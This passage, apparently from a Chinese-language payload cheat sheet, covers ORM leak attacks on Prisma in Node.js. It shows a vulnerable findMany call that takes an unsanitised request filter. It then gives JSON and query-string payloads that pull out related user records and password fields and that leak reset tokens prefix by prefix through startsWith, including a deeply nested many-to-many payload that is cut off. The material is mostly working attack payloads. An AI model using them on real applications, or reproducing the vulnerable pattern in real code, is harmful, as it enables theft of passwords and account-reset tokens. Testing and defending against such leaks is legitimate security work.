 **示例**：

Node.js 中 Prisma 的 ORM 泄露示例。

```js
const posts = await prisma.article.findMany({
    where: req.query.filter as any // 易受 ORM 泄露影响
})
```

使用 include 返回所有字段的用户记录

```json
{
    "filter": {
        "include": {
            "createdBy": true
        }
    }
}
```

仅选择一个字段

```json
{
    "filter": {
        "select": {
            "createdBy": {
                "select": {
                    "password": true
                }
            }
        }
    }
}
```

### 关系过滤

#### 一对一

* [`filter[createdBy][resetToken][startsWith]=06`](http://127.0.0.1:9900/articles?filter[createdBy][resetToken][startsWith]=)

#### 多对多

```json
{
    "query": {
        "createdBy": {
            "departments": {
                "some": {
                    "employees": {
                        "some": {
                            "departments": {
                                "some": {
                                    "employees": {
                                        "some": {
                                            "departments": {
                                                "some": {
                                                    "employees": {
                                                        "some": {
                                                            "{fieldToLeak}": {
                                                                "startsWith": "{testStartsWith}"
                                                            }
                                                        }
                                                    }
```